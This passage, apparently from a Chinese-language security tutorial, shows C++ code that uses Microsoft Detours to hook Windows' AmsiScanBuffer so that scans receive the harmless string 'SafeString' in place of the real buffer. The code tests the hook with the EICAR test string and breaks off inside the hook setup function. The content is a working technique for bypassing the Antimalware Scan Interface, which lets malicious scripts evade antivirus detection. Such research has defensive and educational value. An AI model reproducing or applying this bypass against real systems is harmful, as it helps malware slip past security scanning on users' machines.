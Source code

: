 [![](https://xzfile.aliyuncs.com/media/upload/picture/20200702162833-04226600-bc3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200702162833-04226600-bc3e-1.png)

*   以上代码部分参考 [https://github.com/atxsinn3r/amsiscanner/blob/master/amsiscanner.cpp](https://github.com/atxsinn3r/amsiscanner/blob/master/amsiscanner.cpp)
*   有了测试 AmsiScanBuffer 的基础代码，我们使用刚才在 hook messagebox 中使用的方法来 hook AmsiScanBuffer

```
#include <iostream>
#include <Windows.h>
#include <amsi.h>
#include <detours.h>
#include <system_error>
#pragma comment(lib, "amsi.lib")

#define EICAR "X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"
#define SAFE "SafeString"

//Converts number given out by AmsiScanBuffer into a readable string
const char* GetResultDescription(HRESULT hRes) {
    const char* description;
    switch (hRes)
    {
    case AMSI_RESULT_CLEAN:
        description = "AMSI_RESULT_CLEAN";
        break;
    case AMSI_RESULT_NOT_DETECTED:
        description = "AMSI_RESULT_NOT_DETECTED";
        break;
    case AMSI_RESULT_BLOCKED_BY_ADMIN_START:
        description = "AMSI_RESULT_BLOCKED_BY_ADMIN_START";
        break;
    case AMSI_RESULT_BLOCKED_BY_ADMIN_END:
        description = "AMSI_RESULT_BLOCKED_BY_ADMIN_END";
        break;
    case AMSI_RESULT_DETECTED:
        description = "AMSI_RESULT_DETECTED";
        break;
    default:
        description = "";
        break;
    }
    return description; 
}

//Store orignal version of AmsiScanBuffer
static HRESULT(WINAPI* OriginalAmsiScanBuffer)(HAMSICONTEXT amsiContext, 
                                                PVOID buffer, ULONG length, 
                                                LPCWSTR contentName, 
                                                HAMSISESSION amsiSession, 
                                                AMSI_RESULT* result) = AmsiScanBuffer;

//Our user controlled AmsiScanBuffer
HRESULT _AmsiScanBuffer(HAMSICONTEXT amsiContext,
    PVOID buffer, ULONG length,
    LPCWSTR contentName,
    HAMSISESSION amsiSession,
    AMSI_RESULT* result) {
    return OriginalAmsiScanBuffer(amsiContext, (BYTE*)SAFE, length, contentName, amsiSession, result);
}

//Sets up detours to hook our function
void HookAmsi() {
    DetourRestoreAfterWith();
```